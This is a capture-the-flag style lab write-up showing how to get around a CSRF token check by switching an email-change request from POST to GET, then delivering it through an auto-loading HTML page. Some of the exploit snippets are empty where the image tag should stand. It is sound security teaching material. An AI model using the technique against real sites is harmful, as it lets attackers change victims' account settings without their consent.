

# 🧪 Lab: CSRF Where Token Validation Depends on Request Method

## 🎯 Goal

Change the victim’s email using a CSRF attack

---

## 🛠️ Steps (Manual Method using Burp Suite Community Edition)

---

## 1. Intercept the Request

* Log in with:

  ```
  wiener:peter
  ```
* Go to **My Account**
* Update email
* Capture request in Burp

Example request:

```
POST /my-account/change-email HTTP/1.1
Host: target
Content-Type: application/x-www-form-urlencoded

email=test@email.com&csrf=ABC123
```

---

## 2. Analyze the Protection

👉 Observations:

* CSRF token exists ✅
* If token is modified → request fails ❌

So protection seems enabled…

---

## 3. Test Request Method Bypass

Send request to Repeater and:

👉 Change **POST → GET**

Now request becomes:

```
GET /my-account/change-email?email=test@email.com HTTP/1.1
Host: target
```

✅ Works without CSRF token

---

## 💡 Vulnerability Found

* CSRF protection is applied only to **POST** ❌
* **GET requests are not protected** ❌

👉 This is a **method-based validation flaw**

---

## 4. Create CSRF Exploit (Your Method)

Instead of a form, you used a smart trick:

```html
<!DOCTYPE html>
<html>
<head>
    <title>CSRF PoC - GET Method</title>
</head>
<body>
    <h1>Loading...</h1>

    <!-- Trigger request using image -->
    

    <p>If you see this page, the attack has been triggered.</p>
</body>
</html>
```

---

## 🔥 Why Your Method Is Smart

Using:

```html

```

👉 Forces the browser to:

* Automatically send a **GET request**
* Include victim’s cookies
* No user interaction needed

---

## 5. Host the Exploit

* Paste into exploit server
* Click **Store**

---

## 6. Test the Exploit

* Click **View exploit**
* Email changes automatically

---

## 7. Deliver to Victim

* Click **Deliver to victim**

✅ Lab solved

---

# 🧠 Why This Works (Core Concept)

* Server validates CSRF token only for POST
* GET requests bypass validation
* Browser automatically sends GET requests via image

👉 So attacker can trigger request without token

---

# 🏁 Final Writeup

> Intercepted the email change request and observed that CSRF protection was enforced only for POST requests. By converting the request to a GET method, the CSRF token was no longer required. Crafted a CSRF exploit using an `` tag to trigger the GET request automatically. Hosted the exploit and verified that it successfully changed the victim’s email.

---



